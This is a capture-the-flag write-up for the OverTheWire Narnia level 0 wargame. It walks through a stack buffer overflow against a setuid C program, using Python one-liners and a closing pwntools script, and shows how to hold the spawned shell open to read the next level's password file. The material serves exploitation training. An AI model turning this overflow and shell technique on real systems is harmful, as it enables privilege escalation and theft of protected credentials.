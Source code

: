 
#Narnia0

narnia.labs.overthewire.org

**Username:** narnia0
**Password:** narnia0
**Description:**  

This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.  

##Write-up

Before we do anything, let's go ahead and run the program and see what it does.

```
# ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: AAAAAAAA  
buf: AAAAAAAA  
val: 0x41414141  
WAY OFF!!!!  
```

Ok, it basically just tell's us that we need to correct a value and asks for input.  After accepting the input it looks like it just tells us the value that we submitted and the value of the area we are supposed to overwrite.

Let's go ahead and take a peek at the source:

```C
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef)
		system("/bin/sh");
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```

Alright, we can see the declaration of the buffer ```char buf[20];``` and where the input is read in ```scanf("%24s",&buf);```.  It also looks like if we get our values correct that we will be rewarded quite generously with a shell.  How nice! Let's play around with this new information a bit.  If the buffer was only supposed to be 20 characters, let's see what happens when our input is 21 characters, but since it looks like the buffer we want to overwrite has ```0x41414141``` already in it we are going to have to use another letter besides ```A``` as our input. We'll settle for ```R```.  Just as a quick side note, rather than inputting the values by hand each time let's utilize python to make life easier and just pipe in the input.

```
# python -c 'print "R"*21' | ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRR  
val: 0x41410052  
WAY OFF!!!!  
```

Hmm, it looks like we overwrote one character with the null value at the end of the input overwriting a second.  It also looks like it started overwriting from the back, so we'll need to remember to take the endianness into account for our final input.  Let's try overwriting all 4 characters of the buffer.

```
# python -c 'print "R"*24' | ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRRRRR  
val: 0x52525252  
WAY OFF!!!!  
```

Perfect, we overwrote the whole buffer with our input.  Now, lets start trying to fit ```0xdeadbeef``` in there.  Since the hex values for ```0xdeadbeef``` don't match up to ascii characters we need a way to insert them as input.  We are already using python for the repetitive input, let's just back off our number of ```R``` and tag on hex values to the end of that string and see what it does.

```
# python -c 'print "R"*20+"\xde\xad\xbe\xef"' | ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRޭ�  
val: 0xefbeadde  
WAY OFF!!!!  
```
Our buffer shows that we inserted ```RRRRRRRRRRRRRRRRRRRRޭ�``` which we obviously wouldn't have been able to type in.  However, we forget about the little endian part and our values aren't in the correct order.  Let's fix that.

```
# python -c 'print "R"*20+"\xef\xbe\xad\xde"' | ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRﾭ  
val: 0xdeadbeef  
```

Well, we didn't get the ```WAY OFF!!!``` message, but no shell. I actually spent a good bit of time at this stage, but learned a few key concepts in doing so.  The shell is being launched, but the problem is that it's exiting before we have a chance to run anything.  What we need to do is use the subshell syntax in bash and try to group commands together.  Let's try that with a basic command.
 
```
narnia0@melinda:/narnia$ (python -c 'print "A"*20+"\xef\xbe\xad\xde"';ls) | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
/bin/sh: 1: narnia0: not found
/bin/sh: 2: narnia0.c: not found
/bin/sh: 3: narnia1: not found
/bin/sh: 4: narnia1.c: not found
/bin/sh: 5: narnia2: not found
/bin/sh: 6: narnia2.c: not found
/bin/sh: 7: narnia3: not found
/bin/sh: 8: narnia3.c: not found
/bin/sh: 9: narnia4: not found
/bin/sh: 10: narnia4.c: not found
/bin/sh: 11: narnia5: not found
/bin/sh: 12: narnia5.c: not found
/bin/sh: 13: narnia6: not found
/bin/sh: 14: narnia6.c: not found
/bin/sh: 15: narnia7: not found
/bin/sh: 16: narnia7.c: not found
/bin/sh: 17: narnia8: not found
/bin/sh: 18: narnia8.c: not found
```

Now this looks a little better.  It looks like the output from ```ls``` was passed into the /bin/sh from narnia0. Here we can utilize the ```cat``` command with no parameters which will basically leave the input open for us to pass values to /bin/sh.

```
narnia0@melinda:/narnia$ (python -c 'print "A"*20+"\xef\xbe\xad\xde"';cat) | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
whoami
narnia1
pwd 
/narnia
```

Finally. The ```cat``` command left the input open for us and everything we passed was executed by /bin/sh as a separate command.  Now we just need to find where the flag may be.

```
narnia0@melinda:/narnia$ find / -name 'narnia*' -print 2>/dev/null
/games/narnia
/games/narnia/narnia8
/games/narnia/narnia6.c
/games/narnia/narnia6
/games/narnia/narnia3
/games/narnia/narnia7
/games/narnia/narnia4
/games/narnia/narnia2.c
/games/narnia/narnia3.c
/games/narnia/narnia1
/games/narnia/narnia5
/games/narnia/narnia4.c
/games/narnia/narnia5.c
/games/narnia/narnia0
/games/narnia/narnia2
/games/narnia/narnia1.c
/games/narnia/narnia7.c
/games/narnia/narnia8.c
/games/narnia/narnia0.c
/etc/narnia_pass
/etc/narnia_pass/narnia3
/etc/narnia_pass/narnia7
/etc/narnia_pass/narnia5
/etc/narnia_pass/narnia1
/etc/narnia_pass/narnia8
/etc/narnia_pass/narnia6
/etc/narnia_pass/narnia9
/etc/narnia_pass/narnia0
/etc/narnia_pass/narnia2
/etc/narnia_pass/narnia4
/narnia
/home/narnia3
/home/narnia7
/home/narnia5
/home/narnia1
/home/narnia8
/home/narnia6
/home/narnia9
/home/narnia0
/home/narnia2
/home/narnia4
```

The ```find / -name 'narnia*'``` is a fairly basic command.  The ```-print 2>/dev/null``` is basically just there to eliminate any errors that may clutter the output.  Out of our results the most promising is the ```/etc/narnia_pass``` directory that looks like there is a password document for each challenge.  Since we already have the password for narnia0, let's try to grab the narnia1 password.

```
narnia0@melinda:/narnia$ cat /etc/narnia_pass/narnia1
cat: /etc/narnia_pass/narnia1: Permission denied
narnia0@melinda:/narnia$ ls -l /etc/narnia_pass/narnia1
-r-------- 1 narnia1 narnia1 11 Nov 14  2014 /etc/narnia_pass/narnia1
narnia0@melinda:/narnia$ ls -l narnia0
-r-sr-x--- 1 narnia1 narnia0 7452 Nov 14  2014 narnia0
```

We can't just ```cat``` the narnia1 password because we don't have permissions but it looks like the narnia0 challege runs under narnia1.  Let's use our subshell trick and try to read the password.

```
narnia0@melinda:/narnia$ (python -c 'print "A"*20+"\xef\xbe\xad\xde"';cat) | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
cat /etc/narnia_pass/narnia1
**********
```

There we go. Finally got it. On to narnia1.

As a followup, I wanted to work my way back through these challenges implementing the solutions with the [pwntools](http://pwntools.com) python module in an effort to sharpen my python skills and learn how to utilize this module for future CTF fun.  Below is my solution:

```python
from pwn import *

context(arch='i386', os='linux')
s = ssh(user='narnia0', host='narnia.labs.overthewire.org', password='narnia0')
sh = s.run('/narnia/narnia0')
sh.sendline('A'*20 + p32(0xdeadbeef))
sh.sendline('cat /etc/narnia_pass/narnia1')
log.info('Flag: '+sh.recvline().split('\n')[0])
s.close()
```
